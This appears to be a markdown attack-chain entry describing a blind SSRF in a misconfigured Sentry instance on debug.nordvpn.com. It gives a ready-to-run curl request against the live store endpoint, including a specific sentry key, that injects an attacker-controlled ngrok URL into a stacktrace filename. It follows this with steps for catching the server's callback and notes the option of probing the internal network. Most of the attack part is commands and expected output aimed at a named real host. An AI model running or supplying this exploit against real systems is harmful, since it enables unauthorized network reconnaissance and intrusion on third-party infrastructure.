

---
tags:
  - ssrf
  - blind-ssrf
  - sentry
  - web
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/ngrok]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Blind-SSRF-via-Sentry-Stacktrace-Injection]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:09.501Z'
description: >-
  A multi-step attack exploiting a blind SSRF vulnerability in a misconfigured
  Sentry instance on debug.nordvpn.com, allowing arbitrary outbound requests
  from the server.
skill_level: intermediate
impact_level: high
id: 1ed92f53-89e5-493f-8207-72af9c75dcfc
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SSRF via Misconfigured Sentry Stacktrace Injection on debug.nordvpn.com

Multi-stage attack chain demonstrating exploitation of a blind Server-Side Request Forgery (SSRF) vulnerability in a misconfigured Sentry instance on debug.nordvpn.com. The attack leverages Sentry's default-enabled source code scraping feature to inject arbitrary URLs into error report stacktraces, forcing the server to fetch resources from attacker-controlled endpoints. This enables blind SSRF for internal network probing without direct data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/ngrok]]

### Target Environment

- Web platform
- Sentry service running on debug.nordvpn.com
- No authentication required for the /api/4/store/ endpoint

### Initial Access Requirements

- Public internet access to debug.nordvpn.com
- Attacker-controlled server (e.g., via ngrok)
- No prior credentials or network position needed

## Detailed Attack Procedures

### Step 1: Craft and Send Malicious POST Request
procedure: [[procedures/Exploit-Blind-SSRF-via-Sentry-Stacktrace-Injection]]

**Objective**: Inject an arbitrary URL into the Sentry error report stacktrace to trigger source code scraping and force an outbound GET request from the server.

**Instructions**: Use [[tools/Burp-Suite]] or [[commands/curl-send-ssrf-payload]] to intercept and modify a POST request to the Sentry store endpoint, setting the 'filename' field in the stacktrace to your controlled URL.

```bash
curl -X POST "https://debug.nordvpn.com/api/4/store/?sentry_version=7&sentry_client=raven-js%2F3.27.1&sentry_key=48819d1178934516beea3f05a9e1ceed" \
  -H "Content-Type: application/json" \
  -d '{"event_id":"abc123","project":1,"message":"Test error","exception":{"values":[{"type":"Error","stacktrace":{"frames":[{"filename":"http://your-ngrok-url.ngrok.io/test.js"}]}}]}}'
```

**Expected Output**: HTTP 200 response from Sentry indicating the event was stored, with no immediate visible effect on the client side.

**Success Indicators**:
- Request accepted by Sentry (status 200)
- No client-side errors

### Step 2: Monitor for Inbound Requests
procedure: [[procedures/Exploit-Blind-SSRF-via-Sentry-Stacktrace-Injection]]

**Objective**: Confirm the SSRF by observing the target server fetching the injected URL, enabling validation of the blind request.

**Instructions**: Set up [[tools/ngrok]] to expose your local server and monitor logs for GET requests from debug.nordvpn.com.

```bash
ngrok http 8080
```

Then, check ngrok's web interface or callbacks for inbound traffic.

**Expected Output**: Log entry showing a GET request to your URL (e.g., http://your-ngrok-url.ngrok.io/test.js) originating from NordVPN's IP ranges.

**Success Indicators**:
- Inbound GET request received on attacker server
- Request headers or timing confirm server-side origin

## Attack Chain Summary

### Key Achievements

1. Successful injection of arbitrary URL into Sentry stacktrace
2. Confirmation of blind SSRF via observed outbound request
3. Potential for internal network reconnaissance through chained requests

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
